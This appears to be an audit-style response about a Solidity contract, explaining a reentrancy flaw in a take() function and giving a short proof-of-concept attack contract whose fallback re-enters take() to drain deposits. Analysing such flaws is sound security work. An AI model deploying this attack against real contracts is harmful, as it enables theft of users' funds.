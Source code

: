 #### Reponse：

Based on the smart contract code you provided, I noticed a potential vulnerability within it. In the take() function, it iterates over the safes array to check if each deposit belongs to the caller. However, the code within this loop is susceptible to a reentrancy attack, which could allow the contract to be called again during a transfer, enabling an attacker to repeatedly withdraw deposits.

To exploit this vulnerability, an attacker could use a malicious contract to call the take() function and invoke their own callback function during each iteration of the loop. This would allow the attacker to repeatedly call the take() function during each loop iteration and withdraw multiple deposits, leading to unexpected behavior in the contract.

Below is a simple Solidity code example of exploiting this vulnerability (Proof of Concept, PoC):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
 
contract MaliciousContract {
    Store public store;
 
    constructor(address _store) {
        store = Store(_store);
    }
 
    fallback() external payable {
        if (address(store).balance >= 0.1 ether) {
            store.take();
        }
    }
 
    function attack() external payable {
        store.store{value: msg.value}();
        store.take();
    }
 
    function startAttack() external {
        store.store{value: 1 ether}();
        store.take();
    }
 
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```



In the above vulnerability exploitation contract, MaliciousContract is a malicious contract that repeatedly calls store.take() in the fallback() function to withdraw multiple deposits. The vulnerability can be triggered by calling the attack() function and setting up initial conditions in the startAttack() function.
